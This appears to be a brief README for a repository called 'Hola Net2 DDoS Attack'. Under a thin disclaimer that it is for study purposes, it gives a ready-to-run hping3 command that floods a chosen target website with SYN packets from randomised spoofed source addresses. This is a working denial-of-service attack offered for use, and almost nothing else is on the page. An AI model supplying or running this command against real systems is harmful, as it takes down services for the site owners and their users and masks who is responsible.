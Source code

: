 Hola Net2 DDoS Attack :D 

(This code was implemented for studies purposes, Use it wisely please)

A simply way to send a Syn flood too is having Hping3 tool and lunch this Command:

      sudo hping3 --flood --rand-source <your target website>

